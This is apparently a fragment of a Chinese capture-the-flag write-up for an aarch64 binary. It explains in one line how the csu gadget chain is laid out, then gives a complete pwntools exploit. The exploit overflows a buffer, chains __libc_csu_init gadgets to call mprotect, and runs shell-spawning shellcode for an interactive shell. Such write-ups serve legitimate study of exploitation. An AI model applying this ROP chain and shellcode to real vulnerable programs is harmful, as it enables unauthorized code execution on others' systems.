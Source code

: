 这里的定义的 csu 就是溢出后调用，先去覆盖返回地址为 csu\_down，调用后 sp 指向 csu\_down，然后按照偏移依次往下构造就可以

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch = 'aarch64'
context.os = 'linux'
context.log_level = 'debug'

p = process(["qemu-aarch64","-L","/usr/aarch64-linux-gnu/","./pwn"])
#p = process(["qemu-aarch64","-L","/usr/aarch64-linux-gnu/","-g", "1234","./pwn"])
mprotect_plt = 0x400600
mprotect_got = 0x411030
csu_down = 0x4008CC
csu_up = 0x4008AC

offset=0x48

def csu(x19,x20,call_got,x2,x1,x0,call_shell):
    pl ='a' * offset
    pl += p64(csu_down)
    pl += p64(0) + p64(csu_up)
    pl += p64(x19) + p64(x20) #x19 x20
    pl += p64(call_got) + p64(x2) #x21 x22
    pl += p64(x1) + p64(x0) #x23 x24
    pl += p64(0) + p64(call_shell)
    pl += p64(0) * 6
    return pl

shellcode_addr = 0x411068
shellcode = asm(shellcraft.aarch64.sh())
pl = shellcode
sa('Name:',pl)

pl=csu(0,1,mprotect_got,7,0x1000,shellcode_addr,shellcode_addr)
s(pl)
itr()
```
